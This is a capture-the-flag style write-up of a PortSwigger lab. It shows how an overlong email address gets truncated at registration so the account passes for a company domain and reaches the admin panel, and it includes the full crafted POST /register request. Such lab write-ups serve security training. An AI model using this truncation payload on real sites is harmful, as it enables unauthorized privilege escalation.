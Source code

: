 
# Inconsistent handling of exceptional input

This lab doesn't adequately validate user input. You can exploit a logic flaw in its account registration process to gain access to administrative functionality. To solve the lab, access the admin panel and delete Carlos.

Hint: You can use the link in the lab banner to access an email client connected to your own private mail server. The client will display all messages sent to @YOUR-EMAIL-ID.web-security-academy.net and any arbitrary subdomains. Your unique email ID is displayed in the email client.


---------------------------------------------

References: 

- https://portswigger.net/web-security/logic-flaws/examples



![img](images/Inconsistent%20handling%20of%20exceptional%20input/1.png)

---------------------------------------------

We can not register as the carlos user as it already exists. We register as the user “test” with email “attacker@exploit-0a67006c0423355d834f36b001cf0030.exploit-server.net”:



![img](images/Inconsistent%20handling%20of%20exceptional%20input/2.png)



We can not access /admin:



![img](images/Inconsistent%20handling%20of%20exceptional%20input/3.png)


Using a very long subdomain:



![img](images/Inconsistent%20handling%20of%20exceptional%20input/4.png)


The email domain is 246 “a” characters:



![img](images/Inconsistent%20handling%20of%20exceptional%20input/5.png)



With the following email:

```
POST /register HTTP/2
...

csrf=alQnzW8wE9JhzqQtr4xigsVi409cfLqF&username=test15&email=attackeraaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa%40dontwannacry.com.exploit-0a67006c0423355d834f36b001cf0030.exploit-server.net&password=test15
```



![img](images/Inconsistent%20handling%20of%20exceptional%20input/6.png)


The domain is dontwannacry.com because the rest of the subdomain is cropped:



![img](images/Inconsistent%20handling%20of%20exceptional%20input/7.png)


And we can access /admin:



![img](images/Inconsistent%20handling%20of%20exceptional%20input/8.png)

